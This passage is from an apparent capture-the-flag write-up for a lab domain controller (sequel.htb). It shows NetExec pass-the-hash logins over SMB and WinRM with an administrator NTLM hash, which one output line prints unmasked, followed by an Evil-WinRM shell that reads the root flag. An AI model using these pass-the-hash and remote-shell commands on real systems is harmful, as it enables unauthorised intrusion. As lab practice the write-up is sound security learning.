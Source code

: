 //sweet the hash works!  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ nxc smb sequel.htb -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f***********'  
SMB        10.129.xx.xxx    445    DC01             
[*]Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)  
SMB        10.129.xx.xx    445    DC01            [+] sequel.htb\administrator:7a8d4e04986afa8ed4060f75e5a0b3ff (Pwn3d!)  
  
// can we use winrm for shell?  
┌──(kali㉿Senbonzakura)-[~/escape]  
└─$ nxc winrm sequel.htb -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed***************'  
WINRM      10.129.38.68    5985  DC01             
[*]Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)  
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.  
  arc4 = algorithms.ARC4(self._key)  
WINRM      10.129.xx.xx    5985  DC01            [+] sequel.htb\administrator:7a8d4e04986afa8ed4*********  (Pwn3d!)  
  
  
  
Info: Establishing connection to remote endpoint  
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt  
9b6d19141356159bb01c33ae506f****  
  
  
Yaaaaaay (Pwn3d!)